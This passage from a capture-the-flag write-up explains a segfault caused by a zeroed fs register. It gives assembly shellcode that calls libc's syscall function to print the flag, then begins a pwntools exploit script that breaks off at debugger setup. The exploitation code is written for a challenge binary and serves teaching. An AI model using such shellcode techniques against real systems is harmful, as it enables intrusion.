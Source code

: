we can notice that it's executing an instruction that takes a qword from the address at `fs+0x10`. Our `fs` has been zeroed out too, so this results in a segfault. The workaround here is finding a libc function which doesn't use it; the `syscall` function is a perfect candidate, because it only sets registers properly and then executes the syscall instruction. We still have libc base in `r12`, so this can be the final step of our shellcode:

```python
    libc = ELF("libs/libc.so.6")
    syscall_offs = libc.sym["syscall"]
    shellcode = asm(f"""
            [...]

            /* syscall(1, 1, addr of flag, 0x101) */
            xor rdi, rdi;                           /* rdi = 0 */
            add rdi, 1;                             /* rdi = 1 */
            xor rsi, rsi;                           /* rsi = 0 */
            add rsi, 1;                             /* rsi = 1 */
            mov rdx, rax;                           /* rdx = addr of flag */
            mov rcx, {hex(neg64(0x101))}
            neg rcx;                                /* r10 = 0x101 */

            mov r15, {hex(neg64(syscall_offs))};
            neg r15;
            add r15, r12;                           /* r15 = syscall */
            call r15;

        """)
```

## Exploit

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

HOST = os.environ.get("HOST", "localhost")
PORT = int(os.environ.get("PORT", 38012))
GDB_PORT = int(os.environ.get("GDB_PORT", 1234))

context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
filename = os.path.join(os.path.dirname(__file__), "build/the_wilderness")
exe = context.binary = ELF(args.EXE or filename, checksec=False)

def start():
    if args.REMOTE:
        io = remote(HOST, PORT)
    else:
        io = process(["./sde-external-9.33.0-2024-01-07-lin/sde64"] +  (["-debug"] if args.ATTACH else []) + ["-no-follow-child", "-avx512", "-cet", "-cet_output_file", "/dev/null", "--", exe.path])
    return io

gdbscript = '''
source .gdbinit
b *0xdead000
c
'''
gdbscript = "\t-ex\t".join(gdbscript.splitlines()).split("\t")[1:]

io = start()

if args.ATTACH:
    # Here we need to parse the debug port from the output of the process
    io.recvuntil(b"target remote")
```